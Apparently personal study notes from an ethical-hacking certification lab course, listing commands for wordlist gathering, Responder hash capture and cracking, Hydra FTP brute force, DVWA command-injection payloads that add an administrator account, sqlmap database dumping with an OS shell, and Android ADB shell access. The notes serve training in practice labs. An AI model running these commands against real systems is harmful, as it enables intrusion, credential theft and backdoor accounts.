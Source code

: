 Module 2: Footprinting & Reconnaissance

4.7 Gather wordlist from Target website using CeWL

Cewl -d 2 -m 5 www.certifiedhacker.com


	-d - Depth to spider
	-m - Minimum word length

OR

Cewl -w wordlist.txt -d 2 -m 5 www.certifiedhacaker.com

Wordlist gets saved in root directory

Pluma wordlist.txt


Module 6: System Hacking

6.1 Active online attack to crack system password using Responder

Ubuntu

Cd Responder
Chmod +x ./Responder.py
Sudo ./Responder.py -l ens3
	-l specifies the interface

Switch to Windows, login

Switch to Linux
home/responder/logs
Open smb-ntlmv2-ssp-IP address.txt file

Sudo john /home/ubuntu/Responder.logs/[Log File Name.txt]


6.2 Audit System Passwords using L0phtCrack

6.3 Find Vulnerabilities on Exploit Sites
www.exploit-db.com

Module 7 - Malware Threats

7.4 Analysing ELF executable file using Detect It Easy (DIE)

Module 8 - Sniffing

8.2.1. Password Sniffing using Wireshark


Tools -> Credentials


Module 11 - Session Hijacking

Module 13 - Hacking Web Servers
13.2.1 - Crack FTP Credentials using a Dictionary attack

Nmap -p 21
Hydra -L <wordlist> -P <passwords.txt> ftp://IP Address of FTP Server

Module 14 - Hacking Web Applications

14.3 Perform Web Spidering using OWASP ZAP
Cd
Zaproxy
Automated Scan -> 

14.4 Detect Load Balancers using Various Tools

Sudo su
cd
Dig yahoo.com
Lbd yahoo.com

Lab 2: Perform Web Application Attacks

Perform Brute-Force attack using Burp Suite (Intruder)
Perform Parameter Tampering using Burp Suite

Proxy Tab -> Intercept On
Forward until you are logged into the user account
Click View Profile tab from Menu bar
Forward on burpsuite
Click INSPECTOR
Change Query Parameters and intercept Off

Exploit RCE Vulnerability to compromise a target web server
Login to DVWA
Command Injection page
Ping a device -> 

| hostname
| whoami
| tasklist
| Taskkill /PID /F (Eg. |Taskkill /3122 /F )
| dir C:\
| net user
| net user Test /Add
| net user
| net user Test
| net localgroup Administrators Test /Add
| net user Test

8. Exploit a File Upload Vulnerability at  Different Security Levels

Module 15: SQL Injection

15.2 Perform SQLI against MSSQL to extract DBs using sqlmap

After logging in, inspect element, get value of document.cookie

Enumerating Databases:
Sqlmap -u “URL” –cookie=”Cookie value” –dbs

Enumerating tables
Sqlmap -u “URL” –cookie=”Cookie value” -D DBname –tables


Dumping table content

Sqlmap -u “URL” –cookie=”Cookie value” -D DBname -T Tablename –dump

Interactive OS Shell

Sqlmap -u “URL” –cookie=”Cookie value” –os-shell

Module 17 - Hacking Mobile Platforms

17.4 Exploit Android platform through ADB using Phonesploit

Cd Phonesploit
// Python3 -m pip install colorama
Python3 phonesploit.py
3
Entry phone IP address
At main_menu prompt, type 4 (Access shell on a phone)
Pwd
Ls
Cd sdcard

Cd Download
Ls

Module 18 - IoT and OT Hacking

18.1 Capture and Analyze IoT Traffic using Wireshark

Type mqtt under filter field, gather msglen, topic length, topic, message from public message, publish release, publish complete and public received

Module 20 - Cryptography

HashCalc
MD5 Calculator
HashMyFiles
CrytoForge
Advanced Encryption Package
BCTextEncoder

Disk Encryption using
VeraCrypt
Bitlocker drive encryption
Rohos Disk Encryption
Cryptanalysis using
CrypTool (RC2 Encryption/ Decryption and 3DES (ECB) )
RC2 - 8 bit keylength, 05 as hexadecimal chaaaaraacter
Triple Des (ECB) with 128 bits (effectively 112 bits) with combinaations of 12 as hexaadecimal characters.

AlphaPeeler

